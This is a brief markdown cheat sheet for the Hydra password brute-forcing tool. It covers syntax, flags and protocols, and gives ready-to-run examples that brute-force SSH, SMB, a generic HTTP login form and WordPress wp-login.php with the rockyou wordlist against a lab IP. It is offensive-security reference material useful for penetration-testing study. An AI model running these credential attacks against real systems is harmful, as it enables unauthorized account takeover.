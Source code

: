 # **Basic syntax :**
`hydra [options] <IP> <protocole>`

# **Some flags :**
`-h`  Show help menu

`-l <username>`  Username/login

`-L <wordlist>`  Usernames/login wordlist

`-p <password>`  Password

`-P <wordlist>`  Passwords wordlist

`-s <PORT>`  Specify port

`-f`  Stop bruteforce as soon as username and password are found

`-R`  Restore previous session

`-t <number>`  Number of threads

`-V`  Verbosity


# **Some protocols :**

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP,
SMB, SMTP, MySQL, etc...

# **Examples :**

`hydra -l admin -P rockyou.txt 192.168.10.10 ssh`

`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh`

`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb`


### Bruteforce HTTP Post form :

`hydra -l username -P rockyou.txt 192.168.10.10 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect"`


### Bruteforce Wordpress :

`hydra -l username -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`




